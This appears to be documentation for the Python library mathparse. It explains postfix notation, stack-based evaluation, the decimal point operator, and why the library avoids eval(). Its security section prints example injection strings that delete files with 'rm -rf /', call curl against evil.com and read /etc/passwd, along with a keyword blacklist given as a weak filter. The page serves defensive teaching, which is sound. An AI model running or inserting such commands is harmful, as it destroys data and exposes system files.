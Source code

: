Postfix
=======

The postfix notation, also known as `Reverse Polish Notation (RPN)`_, is a mathematical notation in which every operator follows all of its operands.
It is used in mathparse to evaluate expressions efficiently and safely.

Notably, mathparse does not employ the use of Python's :py:func:`eval` function when evaluating provided mathematical expressions.
This is a measure to prevent arbitrary code execution vulnerabilities.

Postfix Notation
----------------

In postfix notation, mathematical operators are placed after their operands, eliminating the need for parentheses to specify the order of operations. This permits evaluation using a stack-based algorithm.

Basic Examples
~~~~~~~~~~~~~~

Some examples comparing infix and postfix notation are as follows:

.. list-table:: Infix vs Postfix Examples
   :widths: 40 40 20
   :header-rows: 1

   * - Infix Expression
     - Postfix Expression
     - Result
   * - ``3 + 4``
     - ``3 4 +``
     - ``7``
   * - ``5 * (2 + 3)``
     - ``5 2 3 + *``
     - ``25``
   * - ``(8 - 3) * 2``
     - ``8 3 - 2 *``
     - ``10``
   * - ``6 / 2 + 1``
     - ``6 2 / 1 +``
     - ``4``

Stack-Based Evaluation
~~~~~~~~~~~~~~~~~~~~~~

Postfix expressions are evaluated using a stack:

1. **Scan from left to right**: Process each token in the expression
2. **Numbers**: Push numbers onto the stack
3. **Operators**: Pop required operands from stack, apply operation, push result back
4. **Final result**: The remaining value on the stack is the answer

Example evaluation of ``3 4 + 2 *``:

.. code-block:: text

   Token: 3    Stack: [3]
   Token: 4    Stack: [3, 4]
   Token: +    Stack: [7]          (pop 4, pop 3, push 3+4=7)
   Token: 2    Stack: [7, 2]
   Token: *    Stack: [14]         (pop 2, pop 7, push 7*2=14)
   Result: 14

Postfix vs Infix Notation
--------------------------

Understanding the differences between postfix and infix notation helps explain why mathparse uses the postfix approach.

Infix Notation (Traditional)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Advantages:**
- Natural and intuitive for humans
- Matches mathematical conventions
- Easy to read and write

**Disadvantages:**
- Requires parentheses for complex expressions
- Needs operator precedence rules (PEMDAS/BODMAS)
- More complex to parse and evaluate programmatically
- Ambiguity without proper precedence handling

**Example challenges:**
- ``2 + 3 * 4`` could be interpreted as ``(2 + 3) * 4 = 20`` or ``2 + (3 * 4) = 14``
- ``a - b + c`` requires left-to-right evaluation rules

Postfix Notation (RPN)
~~~~~~~~~~~~~~~~~~~~~~

**Advantages:**
- No parentheses needed - order is explicit
- No operator precedence rules required
- Simple, efficient evaluation algorithm
- Unambiguous expression evaluation
- Natural fit for stack-based computation

**Disadvantages:**
- Less intuitive for humans initially
- Requires learning a different notation system

**Why mathparse uses postfix:**

1. **Simplicity**: Stack-based evaluation is straightforward and reliable
2. **Efficiency**: Linear time complexity with minimal memory overhead
3. **Safety**: No need for complex parsing that could introduce vulnerabilities
4. **Correctness**: Eliminates ambiguity in expression evaluation

Implementation in mathparse
~~~~~~~~~~~~~~~~~~~~~~~~~~~

The mathparse library converts infix expressions to postfix using the `Shunting-yard algorithm`_:

.. code-block:: python

   # Example: "3 + 4 * 2" becomes [3, 4, 2, '*', '+']
   tokens = tokenize("3 + 4 * 2")           # ['3', '+', '4', '*', '2']
   postfix = to_postfix(tokens)             # [3, 4, 2, '*', '+']
   result = evaluate_postfix(postfix)       # 11

The conversion process respects operator precedence:
- Highest precedence: ``.`` (decimal point)
- Higher precedence: ``^`` (exponentiation)
- Medium precedence: ``*``, ``/`` (multiplication, division)
- Lower precedence: ``+``, ``-`` (addition, subtraction)
- Parentheses override natural precedence

Decimal Point Operator
~~~~~~~~~~~~~~~~~~~~~~~

The decimal point (``.``) is treated as a special binary operator with the highest precedence.
It combines an integer part and a fractional part to create a decimal number.

**How it works:**

.. code-block:: python

   # "53 . 4" is evaluated as: 53 + (4 / 10^1) = 53.4
   result = mathparse.parse('53 . 4')
   # Returns: 53.4

   # "10 . 25" is evaluated as: 10 + (25 / 10^2) = 10.25
   result = mathparse.parse('10 . 25')
   # Returns: 10.25

**Postfix evaluation:**

.. code-block:: text

   Expression: 53 . 4
   Postfix: [53, 4, '.']

   Evaluation:
   Token: 53    Stack: [53]
   Token: 4     Stack: [53, 4]
   Token: .     Stack: [53.4]      (combines 53 and 4 into 53.4)
   Result: 53.4

The decimal operator has the highest precedence to ensure it binds tightly before any other operations:

.. code-block:: python

   # "5 . 2 + 3" is parsed as "(5.2) + 3", not "5 . (2 + 3)"
   result = mathparse.parse('5 . 2 + 3')
   # Returns: 8.2


Security: Avoiding eval() Vulnerabilities  
-----------------------------------------

One of the key design decisions in mathparse is avoiding Python's :py:func:`eval` function, which poses significant security risks.

The eval() Security Problem
~~~~~~~~~~~~~~~~~~~~~~~~~~~

Python's :py:func:`eval` function executes arbitrary Python code, making it dangerous for processing untrusted input:

**Dangerous examples:**

.. code-block:: python

   # These could execute malicious code:
   eval("__import__('os').system('rm -rf /')")                  # Delete files
   eval("__import__('subprocess').call(['curl', 'evil.com'])")  # Network access
   eval("open('/etc/passwd').read()")                           # Read sensitive files

**Why eval() is problematic:**

- **Arbitrary code execution**: Any Python code can be run
- **System access**: File system, network, and system calls available  
- **Privilege escalation**: Runs with the application's permissions
- **Hard to sanitize**: Input filtering is complex and error-prone
- **Supply chain attacks**: Malicious expressions can be injected

Common Attempted "Solutions"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Several approaches are often tried to make :py:func:`eval` "safe," but all have significant flaws:

**Restricted globals/locals:**

.. code-block:: python

   # Still vulnerable!
   eval(expression, {"__builtins__": {}}, {})

*Problem*: Python's introspection allows access to dangerous functions through object attributes.

**Input validation/filtering:**

.. code-block:: python

   # Blacklist approach - easily bypassed
   if 'import' not in expression and 'exec' not in expression:
       result = eval(expression)

*Problem*: Blacklists are incomplete and can be circumvented with encoding, obfuscation, or alternative access methods.

**Sandboxing:**

.. code-block:: python

   # Complex sandboxing attempts
   safe_dict = {'__builtins__': {'abs': abs, 'max': max}}
   result = eval(expression, safe_dict)

*Problem*: Python's dynamic nature makes true sandboxing extremely difficult and often broken.

mathparse's Safe Approach  
~~~~~~~~~~~~~~~~~~~~~~~~~

Instead of trying to make :py:func:`eval` safe, mathparse implements a purpose-built mathematical expression evaluator:

**Safe parsing pipeline:**

1. **Tokenization**: Break input into mathematical tokens only
2. **Validation**: Each token is checked against allowed mathematical symbols
3. **Conversion**: Transform to postfix notation using known algorithms
4. **Evaluation**: Use stack-based evaluation with predefined operations

**Security benefits:**

.. code-block:: python

   # mathparse only recognizes mathematical operations
   parse("2 + 3 * 4")                     # ✓ Returns 14
   parse("sqrt(16) + pi")                 # ✓ Returns 7.141693
   parse("__import__('os').system('ls')") # ✓ Raises PostfixTokenEvaluationException

**Allowed operations only:**

- **Numbers**: Integers, floats, and mathematical constants (``pi``, ``e``)
- **Binary operators**: ``+``, ``-``, ``*``, ``/``, ``^``
- **Unary functions**: ``sqrt``, ``log`` 
- **Grouping**: Parentheses for expression grouping
- **Word parsing**: Mathematical terms in various languages

**What's explicitly prevented:**

- Function calls (except predefined math functions)
- Variable assignments or access
- Import statements or module access
- File system operations
- Network operations
- Any non-mathematical operations

General Recommendations
~~~~~~~~~~~~~~~~~~~~~~~

When building applications that evaluate user-provided mathematical expressions:

1. **Use purpose-built parsers**: Like mathparse for mathematical expressions
2. **Validate input early**: Check tokens against allowed operations
3. **Limit complexity**: Set bounds on expression depth and length

Example secure usage:

.. code-block:: python

   def safe_calculate(user_input):
       try:
           # mathparse safely evaluates mathematical expressions
           result = parse(user_input)
           return result
       except PostfixTokenEvaluationException as e:
           # Handle mathematical errors appropriately
           return f"Invalid expression: {e}"
       except Exception as e:
           # Log unexpected errors for debugging
           logger.error(f"Unexpected error: {e}")
           return "Calculation failed"

   # Safe examples:
   safe_calculate("2 + 3 * 4")           # Returns 14
   safe_calculate("malicious_code()")    # Returns "Invalid expression: ..."

By using postfix notation and avoiding :py:func:`eval`, mathparse provides a secure, efficient, and reliable way to evaluate mathematical expressions from untrusted sources.

.. _`Reverse Polish Notation (RPN)`: https://en.wikipedia.org/wiki/Reverse_Polish_notation

.. _`Shunting-yard algorithm`: https://en.wikipedia.org/wiki/Shunting-yard_algorithm
